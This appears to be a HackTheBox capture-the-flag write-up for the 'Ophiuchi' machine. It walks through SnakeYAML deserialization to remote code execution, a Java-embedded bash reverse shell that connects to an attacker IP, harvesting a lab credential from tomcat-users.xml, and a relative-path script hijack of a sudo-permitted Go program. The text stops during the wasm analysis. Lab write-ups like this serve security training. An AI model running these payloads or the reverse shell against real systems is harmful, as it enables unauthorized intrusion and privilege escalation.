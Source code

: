 ```yaml
---
layout: post
title: HackTheBox Ophiuchi Write-up
---
```


<h2>Overview</h2>

Ophiuchi is a Medium-rated Hackthebox linux machine. I gain a foothold via yaml deserialization on a website's user input, allowing RCE and leading to a shell as the user tomcat. From there, exposed credentials allow a quick escalation to the user "admin". As admin, I discover I'm able to run a go script as superuser. The file loads scripts without specifying full filepaths, allowing script hijacking and command execution as root.

<h2>Initial Enumeration</h2>

Initial nmap enumeration reveals two ports open: SSH on port 22, and Apache Tomcat site on port 8080.

![image](https://user-images.githubusercontent.com/44827973/141241262-3409fed4-2bc0-47ef-9096-64f8af05ef93.png)

Heading over to port 8080 on a browser reveals an "Online YAML Parser":

![image](https://user-images.githubusercontent.com/44827973/141241523-217abe00-67cf-48a1-8c6f-5e6e8fa2ca59.png)

Testing some gibberish input and clicking parse, I get redirected to this security message:

![image](https://user-images.githubusercontent.com/44827973/141241584-ed9f2860-720c-4a9d-bca7-ee306f6a4d64.png)

Looking to find more clues, I look up the meaning of this unfamiliar word "Ophiuchi".

![image](https://user-images.githubusercontent.com/44827973/141242196-d6436a15-b45a-4b87-b2cb-1884505d54e5.png)

Conveniently, the first link shown when I search for "yaml exploit" returns a "SnakeYAML deserialization" blog entry. This could be the name of the box hinting at the entrypoint.

![image](https://user-images.githubusercontent.com/44827973/141242358-9499465e-9c78-4bc2-a36b-c0ce616d1cff.png)

<h2>Exploiting SnakeYAML -> RCE</h2>

The blog author details a vulnerability in snakeyaml where, if user input is directly passed to a function, the application can be vulnerable to deserialization leading to RCE.
First on my local host I open an HTTP server, and then on the target website I test the payload provided by the blog.

![image](https://user-images.githubusercontent.com/44827973/141243558-c3d44771-864f-41d6-9e2e-8d4896256bec.png)
![image](https://user-images.githubusercontent.com/44827973/141243557-b5df5fcc-eed0-49bd-a661-e241da4b1e58.png)

The web server attempts to make contact with my host. Looks like the security message is either a trick or not up to date, as I can clearly get some form of execution going.

As explained by the blog, snake yaml can interpret Java class constructors in the yaml payload. Upon parsing the provided payload, snake YAML invokes ScriptEngineManager which as we can see attempted to access the "/META-INF/services/javax.script.ScriptEngineFactory" endpoint.

An exploit for this is provided in this github repo:
https://github.com/artsploit/yaml-payload

Upon parsing our yaml payload, the web server will look for the file "/META-INF/services/javax.script.ScriptEngineFactory" and read its contents. It will then attempt to execute the class file pointed to by this file. This exploit aims to abuse this by creation of a Java class file containing arbitrary commands which will force the web server to execute.

I created a folder tree similar to the exploit, in order for the server to locate the header file "javax.script.ScriptEngineFactory" and the class file containing the code I want executed. This is how it ends up looking:

![image](https://user-images.githubusercontent.com/44827973/141244440-6ec163f4-93c3-4d29-aefd-1128d5a6cf6b.png)

Within the javax.script.ScriptEngineFactory file, I specify the package and class I want executed, which will be my exploit.class within my snakeyaml directory:
`snakeyaml.exploit`

I copied the repo's .java file inside my package directory "snakeyaml", and make a modification of the comand to get a reverse shell. Note how I rename the package and class - Java classes need to be the same name as the filename.

![image](https://user-images.githubusercontent.com/44827973/141244687-06921bf0-9a95-4555-b60a-77fd952824ec.png)

Here is the reverse shell command I use:

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.6/443;cat <&5 | while read line; do $line 2>&5 >&5; done"});
```

After modifying, I compile it with "javac exploit.java".

I start a reverse shell listener with netcat.
When I execute my yaml payload again on the website, I get a hit on my HTTP server with response 200 (meaning OK - there were no errors in retrieving the files). I get a reverse shell as "tomcat".

![image](https://user-images.githubusercontent.com/44827973/141245175-f9ae8a04-98c7-4c1e-8cb3-a12dd562560a.png)
![image](https://user-images.githubusercontent.com/44827973/141245182-168a32f8-a457-40eb-bdd6-0887d379aa24.png)

<h2>tomcat -> admin</h2>

The first thing I do with a shell is to upgrade it to an interactive shell. I check if python or python3 is installed, and then run a python command to get an interactive shell.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

For whatever reason, I kept getting EOL errors, so I spawned another shell on top and then ran the command without issues.

![image](https://user-images.githubusercontent.com/44827973/141444329-a0c66b06-80b1-42df-bd3d-4852dac9ec10.png)

Seeing as Apache Tomcat is installed on the machine, it's worth checking the tomcat-users file for credentials. I'm fortunate enough to find credentials for "admin".

The tomcat-users.xml file was found in /opt/tomcat/conf/tomcat-users.xml.

![image](https://user-images.githubusercontent.com/44827973/141444646-c7a13d92-7741-4162-bc57-4ea102b648fd.png)

The credentials found:
`admin:whythereisalimit`

I am able to use these creds to switch to admin user:

![image](https://user-images.githubusercontent.com/44827973/141444760-749aaa78-a94f-4bc3-b65a-10f690e2b446.png)

Now I am able to read user.txt:

![image](https://user-images.githubusercontent.com/44827973/141444778-97979345-7978-4bca-99ba-cd27b593b3e6.png)

<h2>admin -> root</h2>

"sudo -l" reveals one command I can run as root:

![image](https://user-images.githubusercontent.com/44827973/141444962-f00d087a-1957-483e-a7fc-c4fea04ba7d9.png)

It reveals I can run a go file as root. Although it might seem secure, as it only permits us to run this one file as root, we will soon find out.

Although I can't write to the target .go file, I can read it.

![image](https://user-images.githubusercontent.com/44827973/141445056-e35672a0-6335-461f-9414-8e52c6bb0c1a.png)

Here are it's contents.

![image](https://user-images.githubusercontent.com/44827973/141448208-677811c2-9208-4cf4-86ed-c758ddd77fc8.png)

I can see it references two files. The script appears to do the following:

1. read from "main.wasm"
2. check for what main.wasm returns
3. if it returns anything other than 1, "Not ready to deploy" is printed, and execution ends here.
4. if it reads 1, it prints "Ready to deploy", and executes "deploy.sh"

I check what privileges I have on main.wasm and deploy.sh files:

![image](https://user-images.githubusercontent.com/44827973/141447909-89eaef5b-8a5d-42c1-b174-2145653cf592.png)

I'm unable to write to either of these files. If I could simply replace deploy.sh and pass the check in step 2 I could have anything I want executed, but I can't. How else could I exploit this script's behaviour?

<h2>Script Hijacking</h2>

A common vulnerability arises when scripts that are executed without their full filepath specified. As you can see in index.go, the script handles two file inputs which do not have full filepath specified:

1. "main.wasm", which appears to be read by the script, and
2. "deploy.sh", which is executed by the script.

They developer who wrote this script obviously intended for these files to be read from the same directory containing index.go. but if I were to run index.go from another location, it would look inside that location for these files. If I create my own main.wasm and deploy.sh in a directory I have write permissions, and execute the sudo command from that location, I could "hijack" index.go with my own scripts.

There are two things I need in order to hijack index.go:

1. How to get "main.wasm" to return 1
2. replace deploy.sh code with a reverse shell

Step 2 is easy, step 1 will require some investigation.

<h3>Understanding main.wasm</h3>

As per fileinfo.com:

https://fileinfo.com/extension/wasm

> A WASM file contains binary code saved in the WebAssembly format that is run in web browsers, such as Google Chrome, Mozilla Firefox, Microsoft Edge, and Apple Safari. It stores a module, which is binary WebAssembly code that has been compiled from C, C++, or Rust textual code, that can be imported into webpages and apps and used via JavaScript.


